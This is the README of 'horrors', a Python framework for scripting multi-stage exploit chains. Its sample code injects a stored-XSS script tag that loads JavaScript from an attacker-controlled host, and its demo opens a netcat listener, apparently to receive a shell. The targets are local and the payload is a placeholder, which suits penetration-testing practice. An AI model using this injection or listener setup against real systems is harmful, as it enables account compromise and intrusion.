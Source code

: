 `░▒▓ horrors ▓▒░ A micro-framework for writing attack scenarios starring multiple vulnerabilities`

## About

This little asyncio-based framework was created in order to simplify exploit chain development for vulnerable applications. The `scenarios.Scenario` methods are executed sequentially. All you have to do is:

```python
class Vulnerable(scenarios.Scenario):

    async def stage1(self):
        requests.post(
            'http://{rhost}:{rport}/stored/'.format(**self.context),
            data='field=<script src=http://{lhost}:{lport}/xss.js></script>'.format(**self.context),
            headers={'Content-Type': 'application/x-www-form-urlencoded'}
        )

    async def stage2(self):
        await events.Event.wait('xss')
        res = requests.get(
            'http://{rhost}:{rport}/userid/{username}'.format(**self.context)
        )

httpd = services.HTTPStatic({
    '/': 'Home',
    '/xss.js': 'var payload = "something_is_wrong_here";',
})
httpd.send('xss', when=triggers.PathContains('xss.js'))

story = Vulnerable(
    rhost='127.0.0.1',
    rport=8008,
    lhost='127.0.0.1',
    lport=8888,
    username='evil',
)
story.spawn(httpd)
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

A full example is included in the `horrors/example` directory. Try it out by running:

    $ nc -lv4 4444
    $ horrors/example/victim.py
    $ horrors/example/attacker.py

### Demo

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

## Changelog

* **2021/07/30** Initial release (v0.1)
